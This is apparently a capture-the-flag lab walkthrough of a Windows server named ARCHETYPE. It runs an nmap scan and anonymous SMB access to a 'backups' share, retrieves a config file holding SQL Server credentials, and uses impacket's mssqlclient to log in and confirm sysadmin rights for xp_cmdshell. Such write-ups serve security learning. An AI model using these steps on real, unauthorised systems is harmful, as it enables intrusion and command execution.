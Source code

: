 ### 1. Port scan using nmap

```
$ nmap -A 10.10.10.27
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-21 20:23 JST
Nmap scan report for 10.10.10.27
Host is up (0.17s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2021-06-21T11:39:50
|_Not valid after:  2051-06-21T11:39:50
|_ssl-date: 2021-06-21T11:47:08+00:00; +23m08s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h47m08s, deviation: 3h07m52s, median: 23m07s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-06-21T04:46:59-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-06-21T11:46:56
|_  start_date: N/A
```

### 2. Analyze open port
This server uses SMB (TCP:445) and therefore open 135 and 139(need for SMB).
So, try to connect SMB.
 
```
$ smbclient -L 10.10.10.27
Enter WORKGROUP\tk's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

### 3. Connect to SMB ( Windows share file )
We can connect **backups** without password.

```
$ smbclient //10.10.10.27/backups 
Enter WORKGROUP\tk's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 20 21:20:57 2020
  ..                                  D        0  Mon Jan 20 21:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 21:23:02 2020
g
		10328063 blocks of size 4096. 8257809 blocks available
smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.9 KiloBytes/sec) (average 0.9 KiloBytes/sec)
smb: \> exit
```

We can get **prod.dtsConfig** file.
The user name and password for SQL Server are written in this file.

### 4. Try to connect SQL Sever, 1433/TCP
Nomarly we use ```sqlcmd``` command to connect SQL Server, but it seems that its command is ***not*** supported for KALI Linux.

So, we have to use another mssql client tools for Kali.
I searched the words "Kali mssql client github" on Google and found impacket which I wanted.

```
$ git clone https://github.com/SecureAuthCorp/impacket.git
$ cd impacket
$ python3 -m pip install .
```

and try to connect SSIS(SQL Server).

```
$ cd example
# ex) $ python3 mssqlclient.py ID@host -windows-auth
$ python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
```

Check this user's group.
If this user belongs to 'sysadmin', you can use ```xp_cmdshell $comannd_name``` which can execuite commands on SQL.
Japanese specification is below.
https://docs.microsoft.com/ja-jp/sql/t-sql/functions/is-srvrolemember-transact-sql?view=sql-server-ver15

```
SQL> IF IS_SRVROLEMEMBER('sysadmin') = 1 print 'sysadmin';
[*] INFO(ARCHETYPE): Line 1: sysadmin
```

Fourtunately, this user belogs to 'sysadmin'.
